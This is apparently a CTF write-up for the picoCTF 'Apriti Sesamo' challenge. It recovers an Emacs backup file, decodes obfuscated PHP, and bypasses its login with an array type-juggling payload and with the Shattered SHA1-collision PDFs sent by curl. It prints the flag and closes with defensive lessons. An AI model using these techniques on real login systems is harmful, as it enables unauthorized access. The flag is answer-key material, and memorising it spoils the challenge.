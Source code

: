 # **Apriti Sesamo**

This challenge was pretty interesting for me, as I learned something new—**more than one thing, actually**!

So let's get to the point, **hint2** was extremely useful because **Emacs** tends to add a `~` at the end of the files it creates.

---

## **The Exploit**

I suppose you’ve inspected the source code and found nothing. Here’s where the role of the **Emacs** thing comes in. Just **edit the URL** to:

```
http://verbal-sleep.picoctf.net:58281/impossibleLogin.php~
```

Re-inspect the source, and here you are:

![Source Code](https://github.com/user-attachments/assets/428ddd47-e6a7-4dd2-b6df-ba77b1deb320)

---

## **PHP Code Before and After Base64 Decoding**

Before decoding, the PHP code looks like this:

```php
<?php
if(isset($_POST[base64_decode("\144\130\x4e\154\x63\155\x35\x68\142\127\125\x3d")])&& isset($_POST[base64_decode("\143\x48\x64\x6b")])) {
    $yuf85e0677=$_POST[base64_decode("\144\x58\x4e\154\x63\x6d\65\150\x62\127\x55\75")];
    $rs35c246d5=$_POST[base64_decode("\143\x48\144\153")];
    if($yuf85e0677==$rs35c246d5) {
        echo base64_decode("\x50\x47\112\x79\x4c\172\x35\x47\x59\127\154\163\132\127\x51\x68\111\x45\x35\166\x49\x47\132\163\131\127\x63\x67\x5a\155\71\171\111\x48\x6c\166\x64\x51\x3d\x3d");
    } else {
        if(sha1($yuf85e0677)===sha1($rs35c246d5)) {
            echo file_get_contents(base64_decode("\x4c\151\64\166\x5a\x6d\x78\x68\x5a\x79\65\60\145\110\x51\75"));
        } else {
            echo base64_decode("\x50\107\112\171\x4c\x7a\65\107\x59\x57\154\x73\x5a\127\x51\x68\x49\105\x35\x76\111\x47\132\x73\131\127\x63\x67\x5a\155\71\x79\x49\110\154\x76\x64\x51\x3d\75");
        }
    }
}
?>
```

After base64 decoding, the PHP code looks like this:

```php
<?php
if (isset($_POST["username"]) && isset($_POST["pwd"])) {
    $yuf85e0677 = $_POST["username"];
    $rs35c246d5 = $_POST["pwd"];

    if ($yuf85e0677 == $rs35c246d5) {
        echo "<br/>Failed! No flag for you";
    } else {
        if (sha1($yuf85e0677) === sha1($rs35c246d5)) {
            echo file_get_contents("../flag.txt");
        } else {
            echo "<br/>Failed! No flag for you";
        }
    }
}
?>
```

### **Analysis**

The code includes two blocks:

1. **Weak Comparison**: Using `==`, which is susceptible to type juggling. The exploit for this is simple—sending `username[]=&pwd[]=a`, as shown in the picture:
   ![Exploit](https://github.com/user-attachments/assets/894e484e-ea84-4b64-86df-b5a49564fd2b)

2. **SHA1 Hash Comparison**: If the values don’t match, but their **SHA1 hashes** do, the server will return the flag. The key to this exploit is finding two inputs that have the same **SHA1 hash**. This is possible by exploiting a **hash collision**.

---

## **The Solution: Using Hash Collisions**

The solution I liked was exploiting the **else block**, which depends on finding two different values that result in the **same SHA1 hash**. Here's the process:

### **Shattered PDF Files**:

The two files that work for this exploit are:

* [Shattered PDF 1](https://shattered.io/static/shattered-1.pdf)
* [Shattered PDF 2](https://shattered.io/static/shattered-2.pdf)

You can download the files using:

```bash
wget https://shattered.io/static/shattered-1.pdf https://shattered.io/static/shattered-2.pdf
```

---

### **Curl Command with Correct File Input**:

The initial curl command might fail if you pass the files directly like this:

```bash
curl -X POST -F "username=@shattered-1.pdf" -F "pwd=@shattered-2.pdf" http://verbal-sleep.picoctf.net:58281/impossibleLogin.php
```

This command doesn't work because it sends the file as a **file upload**, and the comparison happens on **content** rather than **file metadata**. However, if you send the **file contents** with the following command, it works:

```bash
curl -X POST -F "username=<shattered-1.pdf" -F "pwd=<shattered-2.pdf" http://verbal-sleep.picoctf.net:58281/impossibleLogin.php
```

Here, the content of the files have the same **SHA1 hash**, so the condition in the `else` block is satisfied, and you’ll get the flag.

---

## **Flag**

After sending the correct files with the matching SHA1 hash, the server returns the flag:

```
picoCTF{w3Ll_d3sErV3d_Ch4mp_5292ca30}
```

---

## **Vulnerability Assessment**

This challenge highlights two main vulnerabilities:

1. **Weak Comparison (`==`)**: The use of `==` instead of `===` allows for **type juggling**, which can be exploited by manipulating data types.

2. **SHA1 Collision**: The server relies on comparing **SHA1 hashes** of inputs. **SHA1 collisions** allow for different inputs to have the same hash, leading to a successful exploit.

---

## **Lessons Learned**

1. **Don’t Rely on `==` for Comparisons**: Always use strict comparisons (`===`) to prevent **type juggling attacks**.

2. **Beware of SHA1 Vulnerabilities**: **SHA1 hash collisions** are real and exploitable, and this vulnerability has been demonstrated in challenges like this. Use stronger hashing algorithms like **SHA256** for better security.

3. **Backup Files Can Be Goldmines**: The use of **Emacs backup files** (files ending with `~`) can sometimes reveal hidden code or clues in challenges.


